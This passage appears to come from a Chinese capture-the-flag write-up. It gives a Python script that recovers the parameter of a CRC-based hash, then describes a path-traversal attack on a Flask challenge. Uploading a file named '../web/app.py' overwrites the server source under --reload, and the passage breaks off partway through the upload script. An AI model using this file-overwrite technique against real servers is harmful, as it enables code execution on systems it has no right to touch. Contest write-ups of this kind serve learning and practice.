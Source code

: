 ```py
u2, u1, u0 = 241818181881667, 279270832074457, 202208575380941

result = int.from_bytes(bytes.fromhex("d77759699022"),"little") # b"\xFF\xFF\xFF\xFF\xFF\x7F" 的返回结果

values=[0]
for bit in range(48):
	new_values=[]
	for v in values:
		if (v * (v * u2 + u1) + u0) % (1 << (bit+1)) == result % (1 << (bit+1)):
			new_values.append(v)
		if ((v+(1<<bit)) * ((v+(1<<bit)) * u2 + u1) + u0) % (1 << (bit+1)) == result % (1 << (bit+1)):
			new_values.append(v+(1<<bit))
	values=new_values

def crc(input: bytes,flip) -> int:
    poly_degree =  48
    digest = (1 << poly_degree) - 1
    for b in input:
        digest = digest ^ b
        for _ in range(8):
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)
    return digest ^ (1 << poly_degree) - 1

def hash(input: bytes,flip) -> bytes:
    digest = crc(input,flip)
    u2, u1, u0 = 0xdbeEaed4cF43, 0xFDFECeBdeeD9, 0xB7E85A4E5Dcd
    assert (u2, u1, u0) == (241818181881667, 279270832074457, 202208575380941)
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)
    return digest.to_bytes(48 // 8, 'little')

flips=[]
for v in values:
      flip=v ^ (1 << 48) - 1
      print(v,hash(b"a",flip).hex(),hash(b"",flip).hex())
      if hash(b"a",flip).hex()=="5f11989062ad": # a 的返回结果
            flips.append(flip)

flip=flips[0]

print("".join(['b', 'B'][(flip>>i)&1] for i in range(48)))
```

还原之后填回去再像上一个小题一样补空格就能得到 flag。

## 禁止内卷

既然都开 `--reload` 了，自然是要想办法覆盖服务端源码。由于上传文件时服务端直接 `join` 路径了，那我上传一个 `../web/app.py` 文件就可以直接覆盖服务端源码。由于正常通过浏览器上传无法让文件名带斜杠，我们需要写脚本上传。代码如下

```js
code=`
from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

@app.route("/", methods=["GET"])
def index():
    with open("answers.json") as f:
```